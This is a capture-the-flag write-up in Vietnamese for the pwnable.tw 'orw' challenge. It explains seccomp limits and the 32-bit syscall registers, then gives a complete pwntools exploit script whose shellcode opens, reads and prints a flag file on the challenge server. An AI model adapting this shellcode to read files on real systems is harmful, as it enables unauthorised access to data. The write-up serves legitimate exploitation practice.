









# [orw](./chall/orw)

Đề bài cho ta 1 file orw `32bit`:



Chạy thử thì chương trình bảo đưa shellcode:



Bây giờ ta sẽ phân tích qua chương trình trong ida: 



Chương trình đơn giản đầu tiên là đặt seccomp để giới hạn các hàm syscall của linux rồi sau đó cho ta nhập shellcode rồi thực thi chúng. Mình đã check seccomp thì chương trình chỉ cho phép 3 hàm syscall được gọi là : `open`, `read` và `write`:



Mà file flag nằm ở `/home/orw/flag`:



Vậy nên việc ta cần làm bây giờ đơn giản chỉ là viết shellcode để cho chương trình thực thi thôi.



Vậy bây giờ việc cần làm là open file flag đó -> read vào memory -> write ra flag

Đọc tài liệu thì mình note lại các tham số cần truyền vào thanh ghi để viết shellcode dễ hơn.

### [OPEN]( https://man7.org/linux/man-pages/man2/open.2.html)

```
0x05 : eax
file_path : : ebx
O_RDONLY : ecx : 0
mode: S_IRWXU :edx : 700 (only to newly created file)=> ignored : 0
*/ success will return fd to eax */
```
### [READ](https://man7.org/linux/man-pages/man2/read.2.html)

```
0x03 : eax
fd :ebx
buf addr: ecx
size : edx

```
### [WRITE](https://man7.org/linux/man-pages/man2/write.2.html)

```
0x04 : eax
buf address : ecx
fd : file descriptor: 01 (STDOUT) : ebx
edx : size
```

```python

#!/usr/bin/python3

from pwn import *

path_flag = b"/mnt/d/flag"
#path_flag = b'/home/orw/flag'
exe = ELF('./orw')


context.arch = 'i386'

p =gdb.debug([exe.path], "b * main+10 \n c  ")
#p = remote('chall.pwnable.tw',10001)
shellcode = b""

while len(path_flag)%4 !=0:
    path_flag += b'\0'

for i in range(len(path_flag)-4,-1,-4) :
    chunk = path_flag[i:i+4]
    shellcode += asm(f'mov eax,{u32(chunk)}; push eax')


shellcode += asm('''
    mov ebx,esp
    mov ecx,0
    mov edx,0
    mov eax, 5
    int 0x80
    
                 
    mov ebx,eax
    mov ecx,esp
    mov edx,100
    mov eax,3
    int 0x80
                 
    mov ebx, 01
    mov eax,4
    int 0x80


''',os='linux', arch='i386')


p.sendlineafter("Give my your shellcode:",shellcode)

output = p.recvall()
log.info(output)
p.interactive()


```

Sau khi code xong, mình chạy thử trên local:



Ohh! ta thấy khi chương trình bắt đầu thực thi shellcode của chúng ta thì bị lỗi segmentation fault tức là ta đang truy cập vào vùng nhớ bị hạn chế. Kiểm tra thử quyền ở địa chỉ `0x804a060` bằng vmmap:



Vậy ở vùng nhớ này ta không có quyền thực thi, để bypass qua thì ta cần dùng hàm `mprotect` để cấp quyền cho vùng nhớ đó. Tuy nhiên ta cần gọi trước khi chương trình gọi `seccomp`. Lệnh gọi hàm áp dụng cho gdb: `call (int)mprotect(0x0804a000, 0x1000, 7)`

## SHELLCODE

```python
#!/usr/bin/python3

from pwn import *

#path_flag = b"/mnt/d/flag"
path_flag = b'/home/orw/flag'
exe = ELF('./orw')


context.arch = 'i386'

#p =gdb.debug([exe.path], "b * main+10 \n c \n call (int)mprotect(0x0804a000, 0x1000, 7) \n c \n c ")
p = remote('chall.pwnable.tw',10001)
shellcode = b""

while len(path_flag)%4 !=0:
    path_flag += b'\0'

for i in range(len(path_flag)-4,-1,-4) :
    chunk = path_flag[i:i+4]
    shellcode += asm(f'mov eax,{u32(chunk)}; push eax')


shellcode += asm('''
    mov ebx,esp
    mov ecx,0
    mov edx,0
    mov eax, 5
    int 0x80
    
                 
    mov ebx,eax
    mov ecx,esp
    mov edx,100
    mov eax,3
    int 0x80
                 
    mov ebx, 01
    mov eax,4
    int 0x80


''',os='linux', arch='i386')


p.sendlineafter("Give my your shellcode:",shellcode)

output = p.recvall()
log.info(output)
p.interactive()


```

Chạy code và ta ra được flag:



**FLAG**: `FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`

